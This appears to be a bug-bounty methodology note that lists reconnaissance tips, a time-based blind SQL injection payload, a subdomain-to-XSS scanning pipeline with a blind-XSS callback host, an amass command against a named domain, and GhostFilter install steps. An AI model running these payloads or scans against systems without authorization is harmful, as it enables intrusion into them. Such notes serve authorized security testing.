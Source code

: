 Tips: 
1. Gather all urls from gau/waybackurls and Google Dorking. 
2. Inject SQLi payload in all parameters one by one. 
3. Analyze the response. 

Payload used: 

```sql
0'XOR(if(now()=sysdate(),sleep(10),0)) XOR'Z
```

>bbot -d target.com


```bash
subfinder -dL domainlist1.txt | dnsx | shuf | (gau | | hakrawler) | anew | egrep -iv "\.(jpg|jpeg|gif|tif|tiff|png|ttf|woff|woff2|php|ico|pdf|svg|txt|js)$" | urless | nilo | dalfox pipe -b https://xss.hunter

or

amass enum -d atg.se -o domains-amass.atg.se.txt -timeout 12 -v

```

### how to install tools:


![[Pasted image 20241122063448.png]]

or do  "toolname"  and wait for kali to ask if u want to install it


**! Tip: After collecting the subdomains, first, I filter subdomains without WAF and then proceed. Recon commands step-by-step for beginners⬇️**

## GhostFilter: Automating URL Filtering for Smarter Bug Hunting

_automates  filtering process_

- **Lightning-Fast Filtering**: Built with Go, GhostFilter processes large datasets in seconds.
- **Customizable Filtering**: Allows you to define keywords, patterns, or extensions for precise filtering.
- **Integrates with Bug Hunting Tools**: Can be used alongside your favorite reconnaissance tools for seamless workflows.

1. **Installation**

_Make sure you have go install in your linux environment:_

go install github.com/ghost-man01/GhostFilter@latest

OR you can install using GitHub Repository

```bash
git clone https://github.com/siddhant-shukla/GhostFilter.git  
cd GhostFilter  
go build  
./GhostFilter --help
```
